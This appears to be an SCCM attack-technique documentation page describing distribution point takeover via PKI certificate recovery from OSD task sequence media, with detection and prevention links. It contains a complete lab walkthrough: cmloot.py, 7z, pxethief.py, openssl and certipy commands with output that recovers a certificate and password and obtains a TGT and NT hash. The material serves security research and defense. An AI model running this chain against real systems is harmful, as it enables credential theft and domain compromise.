 # ELEVATE-5

## Description
Distribution Point Takeover via OSD Media Recovery


## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
One of the following:
- Connectivity to SMB on a Distribution Point OR
- Connectivty to HTTP(s) on a Distribution Point

And one of the following:
- Valid Active Directory domain credentials 
- Anonymous authentication enabled on the distribution point

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires its PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. During OSD task sequence media, the certificate is imported where required to support HTTPS communications to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully recover the PKI certificate from the OSD task sequence variables file contents may gain control of the certificate's AD identity.

## Impact 

 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system. 

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)

## Examples

1. On the attacker server, using cmloot.py triage the content library for common OSD media formats like .WIM or .ISO

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Access to SCCMContentLib on 10.6.10.12
[+] sccmfiles.txt created

┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootdownload sccmfiles.txt -extensions WIM ISO
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['WIM', 'ISO']
[+] Creating CMLootOut
[+] Downloaded D55D-boot.12300002.wim
[+] Downloaded 3203-win11.wim
[+] Downloaded 8A5E-prestaged.wim
```
2. Using an archiving tool such as 7zip, parse the recovered media files for and extract the Variables.dat task sequence variables file.

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot/CMLootOut]
└─# 7z l 8A5E-prestaged.wim|grep -i Variables.dat
2025-06-19 16:23:53 ....A        24248        24248  SMS/data/Variables.dat

```
3. Use pxethief.py to extract the PKI certificate from the recovered variables file

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# python3 /home/kali/PXEThief/pxethief.py 3 Variables.dat

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Attempting to decrypt media variables file and retrieve policies and passwords from MECM Server...
[+] User did not supply password. Making use of default MECM media variables password (only works for non-password protected media)
[+] Media variables file to decrypt: Variables.dat
[+] Password provided: {BAC6E688-DE21-4ABE-B7FB-C9F54E6DB664}
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx. Certificate password is 8AE6B618-77EC-46CB-B1B5-88F693E
[+] Identifying Management Point URL from media variables (Subsequent requests may fail if DNS does not resolve!)
[+] Management Point URL set to: https://sccm-mgmt.ludus.domain
```

3. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# openssl \
-in 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx \
-passin pass:8AE6B618-77EC-46CB-B1B5-88F693E \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            13:00:00:00:1b:3f:6d:ff:d3:07:16:36:2c:00:00:00:00:00:1b
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  2 19:35:17 2025 GMT
            Not After : Jun  2 19:35:17 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0/.'+.....7.....k...............6.=...t...y..d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                62:55:1A:83:88:8E:1B:03:0C:76:2E:84:87:5F:B2:D0:27:92:2B:DB
            X509v3 Authority Key Identifier:
                74:86:80:EB:30:51:04:4D:D8:32:A0:33:7D:BB:77:24:18:C5:50:65
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-distro.ludus.domain

```


4. Use certipy to authenticate on behalf of the recovered certificate's identity.

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# certipy auth -pfx 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx -password 8AE6B618-77EC-46CB-B1B5-88F693E -dc-ip 10.6.10.10
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-distro.ludus.domain'
[*] Using principal: 'sccm-distro$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-distro.ccache'
[*] Wrote credential cache to 'sccm-distro.ccache'
[*] Trying to retrieve NT hash for 'sccm-distro$'
[*] Got hash for 'sccm-distro$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:b8388cab9a861556b6132ae7e4de71c5

```


## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description.md)
- ELEVATE-4, [Distribution Point Takeover via PXE Boot Spoofing](../ELEVATE-4/ELEVATE-4_description.md)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#task-sequence-media-for-deploying-operating-systems)


